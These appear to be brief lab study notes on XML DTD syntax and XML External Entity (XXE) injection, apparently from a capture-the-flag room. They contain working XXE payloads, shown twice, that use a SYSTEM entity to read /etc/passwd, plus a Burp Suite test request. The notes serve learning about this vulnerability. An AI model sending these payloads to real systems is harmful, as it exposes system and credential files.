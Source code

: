 - !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the `to` element to be of type "#PCDATA"
- !ELEMENT from - Defines the `from` element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the `heading` element to be of type "#PCDATA"
- !ELEMENT body - Defines the `body` element to be of type "#PCDATA"
- PCDATA means parseable character data.

define an element = `!ELEMENT`
define a root element = `!DOCTYPE`
define a new entity = `!ENTITY`


EXTERNAL ENTITY - XXE PAYLOAD

```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>  
 <userInfo>  
  <firstName>falcon</firstName>  
  <lastName>&name;</lastName>  
 </userInfo>
```

defining entity called name and assigning value feast

```
<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>  
<root>&read;</root>
```

entity name read , setting value to system path of the file = `/etc/passwd`
or read other files but often fails

---
`http://x.x.x.x:80`  XXE attack

BurpSuite request , payload to display name falcon feast, use this code

```
<?xml version="1.0" encoding="UTF-8"?>  
<mail>
 <to>falcon </to>
 <from>feast</from>
 <subject>About XXE</subject>
 <text>Teach XXE</text>
</mail>
```

  
See if you can read the `/etc/passwd`

```
<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>  
<root>&read;</root>
```
